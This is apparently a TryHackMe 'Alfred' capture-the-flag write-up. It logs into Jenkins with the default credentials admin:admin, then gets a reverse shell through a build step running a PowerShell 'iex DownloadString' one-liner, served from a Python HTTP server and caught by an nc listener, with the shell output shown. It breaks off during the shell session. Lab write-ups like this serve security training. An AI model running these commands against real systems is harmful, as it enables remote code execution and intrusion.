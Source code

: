     Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 1182.19 seconds

### 2 - What is the username and password for the log in panel(in the format username:password)

Port 80: 

Donations to alfred@wayneenterprises.com are greatly appreciated. 

Port 8080:

Sign in for Jenkins.

Tried simple one - admin:admin
Worked!

### 3

*Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port*

*You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: python3 -m http.server*

1. Start up a python3 server in the alfred directory:

    ┌─[user@parrot]─[~/labs/tryhackme/alfred]
    └──╼ $python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

2. Start up a netcat listener (with rlwrap, this is interesting because it actually alows you to have history on your simple shell).

3. On 10.10.99.103:8080:
   
   a.  Go to "New Item" --> Item Name = "Test"; Type of Project = Freestyle Project.
   
   b. Go to the "Build Triggers" tab, scroll down to "Build", Click Add Build Step: Execute Windows Batch Command.
   
   c. Write the following:
    ```
    powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.82.167:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.82.167 -Port 4444
    ```
    d. Save.
    e. On the left column on the page it takes you to (http://10.10.99.103:8080/job/Test/), click "Build Now". You now have a shell on the nc terminal!

    ```
    ┌─[user@parrot]─[~/labs/tryhackme/alfred]
    └──╼ $rlwrap nc -lvnp 4444
    listening on [any] 4444 ...
    connect to [10.8.82.167] from (UNKNOWN) [10.10.99.103] 49196
    Windows PowerShell running as user bruce on ALFRED
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
